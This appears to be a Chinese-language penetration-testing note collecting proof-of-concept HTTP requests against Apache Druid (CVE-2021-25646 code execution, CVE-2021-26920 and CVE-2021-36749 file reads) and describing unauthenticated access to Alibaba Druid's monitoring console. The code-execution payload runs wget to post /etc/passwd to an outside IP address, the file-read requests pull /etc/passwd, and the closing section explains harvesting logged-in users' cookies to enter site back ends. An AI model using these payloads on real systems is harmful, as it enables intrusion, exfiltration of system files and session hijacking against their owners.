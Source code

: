 目前广为人知的Druid有两个，一个是阿里巴巴开源的Durid数据库连接池，一个是MetaMarkets开源的分布式，实时多维OLAP分析的数据处理系统。

## Apache Druid 

### Apache Druid 命令执行(CVE-2021-25646)

由于Apache Druid能够执行嵌入在各种类型的请求中的用户提供的JavaScript代码，经过身份认证的攻击者可以构造恶意请求，使用当前Druid权限在目标系统上执行任意代码。

Apache Druid < 0.20.1

需要访问Druid控制台

poc

~~~
POST /druid/indexer/v1/sampler?for=filter

{
          "type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript","function":"function(value){return java.lang.Runtime.getRuntime().exec('wget --post-file /etc/passwd http://101.43.138.109:2333/')}","dimension":"added","":{"enabled":"true"}}}}},"samplerConfig":{"numRows":500,"cacheKey":"79a5be988bf94d42a6f219b63ff27383"}
        }
~~~

### Apache  Druid 文件读取漏洞 CVE-2021-26920

Apache Druid < 0.21.0

~~~
POST /druid/indexer/v1/sampler?for=connect

{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"http","uris":["file:///etc/passwd"]}}},"samplerConfig":{"numRows":500}}
~~~

### apache-druid文件读取-cve-2021-36749

Apache Druid  0.21.0 or 0.21.1

~~~
POST /druid/indexer/v1/sampler?for=connect

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
~~~

这两个文件读取漏洞都是一个点，根据版本不同poc也不同

---

## Alibaba Druid

### druid-monitor-unauth Druid  数据库连接池控制台未授权访问

1、Druid是阿里巴巴[数据库](https://cloud.tencent.com/solution/database?from=10680)事业部出品，为监控而生的数据库连接池。

2、Druid提供的监控功能，监控SQL的执行时间、监控Web URI的请求、Session监控。

3、当开发者配置不当时就可能造成未授权访问漏洞。

~~~
path: /druid/index.html
~~~

![image-20220311095841685](TyporaPicture/image-20220311095841685.png)

通过URL监控可以查看网站后台地址，通过Session监控可以获取已登录用户的cookie。合理运用可以登录网站后台进行后续渗透。

